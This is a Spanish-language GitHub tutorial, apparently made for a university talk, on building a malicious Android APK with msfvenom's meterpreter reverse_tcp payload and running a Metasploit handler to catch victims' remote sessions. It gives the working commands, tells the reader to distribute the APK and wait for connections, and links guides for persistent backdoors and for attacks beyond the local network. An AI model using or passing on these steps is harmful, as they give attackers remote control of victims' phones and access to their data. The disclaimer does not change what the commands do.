


#Android Invaders - Prueba de concepto

Pequeño tutorial de como lanzar un ataque a un móvil de Android (o a Windows) creando un APK o archivo EXE a través del cual la máquina o móvil infectada se conectará remotamente a la máquina del atacante, abriendo una conexión y permitiendo al atacante obtener información o realizar acciones en la máquina o móvil vulnerada.

**Pruebas y tutorial realizado por:** Juan Antonio Velasco Gómez [@juanvelascogomez](https://github.com/juanvelascogomez).

##Preparando el ataque

Información sobre direcciones ip

  **Dirección pública:** Se puede consultar a través de la página web [cual-es-mi-ip](www.cual-es-mi-ip.net).

  **Dirección IP local:** 192.168.221.129

##Creación del apk malicioso

  A continuación tenemos que crear el apk malicioso. Para ello tenemos que hacer uso de la herramienta de metasploit **msfvenom**.

  Para Android

      msfvenom -p android/meterpreter/reverse_tcp LHOST=direccion_ip LPORT=5555 R> apkmalicioso.apk

##Preparando el servidor del atacante

  Después de esto tenemos que dirigirnos al framework **metasploit** a ejecutar el servidor del atacante, para ello hacemos lo siguiente:

    use multi/handler
    set PAYLOAD android/meterpreter/reverse_tcp
    set LHOST 192.168.221.129
    set LPORT 5555

  Comprobamos que todo está correcto con *show options* y lanzamos el servidor

    exploit -j

  *El comando -j permite más de una conexión al servidor*

  Será la víctima la que se conecte a nosotros puesto que el PAYLOAD que hemos seleccionado es reverse_tcp. Si somos nosotros quien quiere conectarse a la víctima existe otro PAYLOAD llamado bind_tcp que lo hace. En vez de apuntar el LHOST, tendríamos que apuntar RHOST (dirección de la víctima), pero ésta normalmente es desconocida.

  A partir de ahí se trata de **distribuir el apk** y esperar la conexión a esas sesiones de meterpreter.

  Algunos comandos que se pueden usar una vez que conseguimos la sesión de meterpreter

##Algunos videos y enlaces útiles

  2. Crear un [backdoor](http://null-byte.wonderhowto.com/how-to/create-persistent-back-door-android-using-kali-linux-0161280/). **Nota:** He comprobado que una vez que el usuario borra el apk estando la sesión abierta de meterpreter, esta se borra. Se desconecta. Sería interesante agregar algo para crear un backdoor en el dispositivo.

  3. Ataques fuera de LAN --> Uso de [NoIP](NOIP.md)

  4. [ISO](http://www.osboxes.org/android-x86/#android-x86-4_4-r2-vmware) de Android para VMWare

##Notas del autor

Este tutorial fue realizado para una charla informativa para la Universidad de Granada, el autor o autores de él no se hacen responsables del mal uso que se pueda dar. Sed buenos. }:)
